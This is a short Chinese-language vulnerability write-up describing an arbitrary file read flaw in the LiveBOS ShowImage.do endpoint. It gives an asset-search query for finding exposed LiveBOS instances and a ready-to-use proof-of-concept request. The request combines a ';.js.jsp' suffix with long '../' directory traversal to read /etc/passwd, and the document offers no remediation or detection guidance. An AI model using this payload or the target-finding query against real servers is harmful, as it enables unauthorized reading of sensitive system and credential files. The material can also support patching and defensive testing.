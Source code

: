 # 

# LiveBOS ShowImage.do 任意文件读取漏洞

## 漏洞描述

LiveBOS ShowImage.do 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

LiveBOS

## 网络测绘

```
app="LiveBOS-框架"
```

## 漏洞复现

登陆页面

![image-20230828111822866](images/image-20230828111822866.png)

验证POC

```
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![image-20230828111838582](images/image-20230828111838582.png)
